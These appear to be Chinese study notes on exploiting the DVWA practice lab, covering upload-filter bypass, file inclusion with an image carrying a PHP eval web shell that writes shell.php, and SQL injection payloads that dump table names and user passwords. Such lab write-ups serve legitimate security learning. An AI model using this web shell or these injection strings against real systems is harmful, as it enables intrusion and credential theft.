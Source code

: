 # Web Security

## dvwa靶机

### 上传漏洞

####低安全等级

因为服务器没有什么过滤条件直接上传一句话，菜刀链接就可以了。

#### 中安全等级

服务器对**媒体类型**进行了过滤，我们将`Content-Type: application/octet-stream`类型改为`image/jpeg`就可以绕过了。

#### 高安全等级

TODO

### 文件包含漏洞

#### 低安全等级

远程文件包含：

①制作图片马：

使用二进制的打开工具打开图片，比如说`010Editor`,在图片最末尾添加

`<?php fputs(fopen("shell.php","w"),'<?php @eval($_POST["pass"]);?>')?>`

意思是将一句话木马写到`shell.php`中。

![1544668415414](./images/web security/1544668415414.png)

②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=自己的远程服务器/uploads/cc.jpg`

这一步就执行了一句话木马，在`vulnerabilities/fi/`目录下生成了`shell.php`

③最后菜刀链接。

#### 中安全等级

这个等级把`http://`和`http:s//`替换成了空字符串。

**第一种方法：**

我们可以构造类似这种请求进行远程文件包含。

`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=http:http:////www.baidu.com`

**第二种方法：**

本地文件包含：

和远程文件包含相比，本地文件包含需要先上传文件到目标机器上。

①制作图片马：同上

②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=../../uploads/cc.jpg`

需要知道上传文件的路径，一般是相对路径。

#### 高安全等级

### SQL注入

####普通注入

首先输入单引号，发现语句执行了，说明存在sql注入。

`1' union select 1，2` 测试，发现有两列

然后进行注入。

```sql
# 查所有表名
1' union select table_name,table_schema from information_schema.tables #
 
# 查某个表的所有列名
1' union select column_name,2 from information_schema.columns where table_name ='users' #

# 查询表中的数据
1'  union select user,password from users #

# 多列都显示
1'  union select password,concat(user," ", first_name," ",last_name) from users #
```

#### 盲注

`1' and sleep(3)  #`

如果发现网页在发请求（在转），那么此处就有漏洞。

然后就和普通注入一样了。

#### Sqlmap的使用

